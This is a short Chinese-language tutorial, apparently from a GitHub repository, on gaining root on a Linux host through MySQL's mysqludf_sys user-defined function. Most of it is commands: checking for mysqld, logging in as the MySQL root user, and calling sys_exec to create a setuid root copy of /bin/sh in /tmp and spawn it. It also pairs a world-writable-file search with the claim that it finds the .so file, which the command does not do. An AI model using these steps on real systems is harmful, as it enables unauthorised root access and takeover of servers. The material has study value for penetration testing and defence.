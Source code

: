 # 基于mysqludf_sys.so漏洞的提权

有时候目标机里会存在mysqludf_sys.so文件，那即表示数据库里可能存在用户自定义的功能函数。
UDF (user defined function)，即用户自定义函数。是通过添加新函数，对MySQL的功能进行扩充，其实就像使用本地MySQL函数如 user() 或 concat() 等。

## 操作
### 1.判断目标机是否运行mysql
```
ps aux | grep mysql
```
若回显的内容中有mysqld，则表示在运行mysql

### 2.判断目标机中是否存在mysqludf_sys.so文件
```
find / -perm -0002 -type f 2>/dev/null | grep -v 'proc'
```
若回显存在则证明存在

### 3.想办法以root用户登录mysql，这里的root是mysql里的用户，不是shell的用户。
```
mysql -u root -p
```
输入root的密码登录mysql

### 4.来到mysqludf_sys.so存在的table下
```
show databases;
use mysql;　　一般在此目录下
show tables;
select * from func;　　一般在此目录下
```

### 5.利用其存在的function提权
```
select sys_exec('cp /bin/sh /tmp/shell;chown root /tmp/shell;chgrp root /tmp/shell;chmod u+s /tmp/shell');
\! /tmp/shell
```
将/bin/sh移动到/tmp下并取名为shell，然后改变/tmp/shell的拥有者、所属的组、文件权限。

\! /tmp/shell是在mysql下执行shell，\! 后面可以接其他的shell语句

之后即为root用户
